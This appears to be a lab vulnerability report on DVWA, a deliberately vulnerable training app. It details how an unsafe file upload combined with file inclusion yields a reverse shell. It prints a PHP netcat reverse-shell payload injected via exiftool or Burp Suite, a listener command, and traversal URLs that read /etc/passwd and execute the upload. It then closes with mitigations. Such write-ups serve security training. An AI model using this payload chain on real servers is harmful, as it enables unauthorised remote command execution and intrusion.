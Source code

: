 # Malicious file upload vulnerability and file inclusion leads to reverse shell

**Summary:**

Malicious file upload vulnerability with directory traversal to start a reverse shell.

**Description:**

- Malicious file uploads occur when files are uploaded to the filesystem by the user and the name, type, content and size of the file are not sufficiently validated. This leads to dangerous files being uploaded to the server.
- PHP code can be uploaded via file upload with the use of exiftool or burp suite. Then the user can use a file inclusion / directory traversal to run the php script to get access to a reverse shell which they can use to escalate their privileges.

Affected URLs and affected objects: 
- http://localhost/DVWA/vulnerabilities/upload/ the file upload form upload the payload

    ![Alt text](image.png)

- http://localhost/DVWA/vulnerabilities/fi/?page=include.php the URL to access the payload

    ![Alt text](image-1.png)

**Severity:**

P1: Critical 

Server-Side Injection > File Inclusion

Server Security Misconfiguration > Unsafe File Upload

**Steps to Reproduce:**

Setup: Set Security Level to high (after logging in).

![Alt text](image-14.png)

1. Find a jpg and run the command in terminal: 
`exiftool -Comment="<?php echo system('nc -e /bin/sh 127.0.0.1 4444') ?>" image.jpg`

![Alt text](image-2.png)

2. Rename the image from image.jpg to image.php.jpg

![Alt text](image-3.png)

3. Upload the image.php.jpg file and you will get the file path in the message:
../../hackable/uploads/image.php.jpg successfully uploaded!

![Alt text](image-5.png)

4. Start a netcat listener with the command:
nc -lvnp 4444

![Alt text](image-6.png)

5. Visit the path at ../../hackable/uploads/image.php.jpg and copy down it's url:
`http://localhost/DVWA/hackable/uploads/image.php.jpg`

![Alt text](image-8.png)

6. Go to the File Inclusion page 

![Alt text](image-7.png)

6. Test for file inclusion vulnerability in the url:
`http://localhost/DVWA/vulnerabilities/fi/?page=file1.php||page=../../../../../../../../etc/passwd`

![Alt text](image-9.png)

7. Make sure your netcat listener is running in the terminal (step 4). Now change url for the file inclusion vulnerability to view the image.php.jpg file in the url:

`http://localhost/DVWA/vulnerabilities/fi/?page=file1.php||page=../../../../hackable/uploads/image.php.jpg`

![Alt text](image-10.png)

8. Look back at your netcat listener and type id and you will find you have access to a shell with the www-data user and you can then try to gain escalated privileges with that user.

![Alt text](image-12.png)

![Alt text](image-13.png)

Note: the website will be frozen until you exit the shell in your terminal.

Other Method: Burp Suite Steps

1. Find an image file. 

2. When uploading the file, go to Burp Suite intercept and at the end of the image data add the php code: 
`<?php echo system('nc -e /bin/sh 127.0.0.1 4444') ?>`

![Alt text](image-17.png)

3. Then forward the upload request. 

Then follow the steps from step 5 but make sure you visit the file you uploaded even if it doesn't contain .php. As long as the php code is uploaded in the data when the file is called with the file inclusion vulnerability it will run in the html code. Make sure to have netcat listener running to get a reverse shell.

**Impact**

You can gain access to a reverse shell which can lead to command execution on the server and try to escalate your privileges.

This happens because when the file is called with the file inclusion vulnerability, the web picks up that it's php code and it runs with the html elements.

**Recommended Mitigations**

Mitigation 1

Files should be scanned for malware and php code so they can be flagged for deletion. 

I found a PHP Antimalware Scanner which claims it removes dangerous functions, exploits and signatures. The dangerous functions include `system` and `shell_exec`.

Explanation link: https://marcocesarato.github.io/PHP-Antimalware-Scanner/#:~:text=PHP%20Antimalware%20Scanner%20is%20a,seem%20to%20contain%20malicious%20code.

GitHub: https://github.com/marcocesarato/PHP-Antimalware-Scanner 

Mitigation 2

Make sure that no special characters are allowed in the file inclusion path. For example, '|' should not have been accepted, and any ../ even if they are encoded, they should not be allowed. 

Make an if statement with the filenames that you expect the user to input. You can go through a list of predetermined values and if the user input matches the filename then the resource can be used. Otherwise, all other requests are dropped. Users should only be allowed to view what they are expected to view.
